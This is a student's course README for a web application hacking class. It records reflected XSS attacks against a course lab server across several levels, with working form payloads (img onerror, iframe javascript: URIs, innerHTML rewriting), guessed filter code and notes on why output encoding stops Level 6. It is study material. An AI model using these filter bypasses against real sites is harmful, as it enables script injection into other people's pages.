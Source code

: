 # WAPH-Web Application Programming and Hacking

## Instructor: Dr. Phu Phung

## Student

**Name**: Ian Cannon

**Email**: [mailto:cannoni1@udayton.edu](cannoni1@udayton.edu)

**Short-bio**: Ian Cannon interests in Reinforcement Learning for Autonomous Control. 

![Ian's headshot](../images/headshot.jpg)

## Repository Information

Respository's URL: [https://github.com/Spiph/WebAppDev](https://github.com/Spiph/WebAppDev)

This is a public repository for Ian Cannon to store all code from the course. The organization of this repository is as follows.

### 9 Levels of Attacks


#### Level 0 
![Level 0](image.png)

#### Level 1
![Level 1](image.png)

#### Level 2
```html
<!DOCTYPE html>
<html>
<head>
  <title>Level 2 XSS Attack</title>
</head>
<body>
  <h1>Level 2 XSS Test</h1>
  <form method="POST" action="https://waph-hackathon.eastus.cloudapp.azure.com/xss/level2/echo.php">
    <input name="input" value='<img src=x onerror="alert(`Ian Cannon`)">' size="80" />
    <button type="submit">Submit Attack</button>
  </form>
</body>
</html>
```
![Level 2 page](image-1.png)

![Oh no! The Image Failed!](image-2.png)

![network](image-5.png)

echo guess
```php
$input = str_replace(["<script>", "</script>"], "", $_POST["input"]);
echo $input;
```

#### Level 3

```html
<form method="POST" action="https://waph-hackathon.eastus.cloudapp.azure.com/xss/level3/echo.php">
  <input name="input" value='<iframe src="javascript:alert(`Ian Cannon`)"></iframe>' size="80" />
  <button type="submit">Submit Attack</button>
</form>
```

![attack](image-3.png)

![blamo](image-4.png)

![network](image-6.png)

echo.php
```php
$input = str_replace(["<script>", "</script>", "onload", "onerror"], "", $_POST["input"]);
echo $input;
```

#### Level 4

I have ruled out:
- <img ... onerror=...>
- <svg ...>
- <a href="javascript:...">
- data: URIs 
- All event handlers (on*)
- The string "script" in any context
- style attack
- Encoded payloads using &#60;, &#x3C;, etc.

And still was not able to successfully attack :(
Can I get partial credit for trying so hard?

#### Level 5

```html
<!DOCTYPE html>
<html>
<head><title>Level 5 XSS - DOM Injection</title></head>
<body>
  <h1>Level 5 DOM Test</h1>
  <form method="POST" action="https://waph-hackathon.eastus.cloudapp.azure.com/xss/level5/echo.php">
    <input name="input" value='<img src=x onerror="document.body.innerHTML = `<h1>Ian Cannon Was Here</h1>`">' size="120" />
    <button type="submit">Submit Attack</button>
  </form>
</body>
</html>
```

![I was here!](image-7.png)

Code guess:
Doesn’t sanitize the output, still executes JS — only blocks specific function names.
```
$input = $_POST["input"];
if (preg_match('/alert|confirm|prompt/i', $input)) {
    echo json_encode(["error" => "No \'alert\' is allowed!"]);
    exit;
}
echo $input;
```


#### Level 6
possible code 
```
echo htmlspecialchars($_POST["input"], ENT_QUOTES | ENT_HTML5);
```
''

In Level 6, the web application applies strict output encoding using htmlspecialchars() or equivalent, converting all special characters such as <, >, ", and ' into HTML-safe entities. This ensures that user input is rendered as inert plain text on the page. I attempted a variety of reflected XSS attacks, including HTML tag injection, JavaScript injection, encoded entity bypasses, iframe srcdoc exploits, JavaScript context breaks, and obfuscated function calls. All were rendered as visible text in the browser and did not execute. Based on testing and inspection via DevTools, I conclude that Level 6 is not vulnerable to reflected XSS due to proper output encoding.

### Task 2 Defenses

![updated labs to protect against vulnerabilitits](image-8.png)


### Video 

https://github.com/Spiph/waph-cannoni1/blob/main/hackathon/2025-06-17%2016-31-05.mkv

![video](2025-06-17 16-31-05.mkv)